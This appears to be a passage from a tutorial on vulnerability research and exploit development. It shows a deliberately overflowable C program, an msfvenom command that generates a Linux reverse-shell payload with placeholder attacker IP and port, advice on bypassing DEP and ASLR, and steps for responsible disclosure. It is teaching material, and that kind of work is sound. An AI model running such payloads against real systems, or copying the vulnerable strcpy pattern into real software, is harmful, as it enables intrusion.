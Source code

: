     int main(int argc, char *argv[]) {
        char buffer[64];
        strcpy(buffer, argv[1]);
        printf("Input: %s\n", buffer);
        return 0;
    }
    ```
  - This code can be used to demonstrate a buffer overflow vulnerability.

##### Payload Design
- **Purpose:** Create a payload that executes a specific action when the exploit is successful, such as spawning a shell, downloading a file, or exfiltrating data.
- **Tools:**
  - `Msfvenom`: A tool within the Metasploit Framework for generating payloads.
  - `Shellcode`: Custom payloads written in Assembly.
- **Process:**
  - Design the payload based on the intended outcome of the exploit.
  - Integrate the payload with the exploit code.
  - Example Msfvenom command to generate a reverse shell payload:
    ```bash
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f c
    ```

##### Exploit Testing and Refinement
- **Purpose:** Test the exploit in various environments to ensure reliability and effectiveness. Refine the exploit as needed to bypass security mechanisms such as Data Execution Prevention (DEP) or Address Space Layout Randomization (ASLR).
- **Process:**
  - Test the exploit against different operating systems, versions, and configurations.
  - Refine the code to handle edge cases and increase its success rate.
  - Use tools like `GDB` (GNU Debugger) to analyze and refine the exploit:
    ```bash
    gdb -q ./vulnerable_program
    ```

# Reporting and Mitigation

Once a vulnerability has been discovered, analyzed, and an exploit has been developed, the next phase involves reporting the vulnerability to the appropriate stakeholders and recommending mitigations.

##### Vulnerability Disclosure
- **Purpose:** Report the vulnerability to the affected vendor or organization in a responsible manner, following industry best practices for responsible disclosure.
- **Process:**
  - Contact the vendor or use a third-party vulnerability disclosure platform like `Bugcrowd` or `HackerOne`.
  - Provide a detailed report including the vulnerability details, impact analysis, proof of concept, and any relevant logs or screenshots.
  - Collaborate with the vendor to ensure the vulnerability is patched.
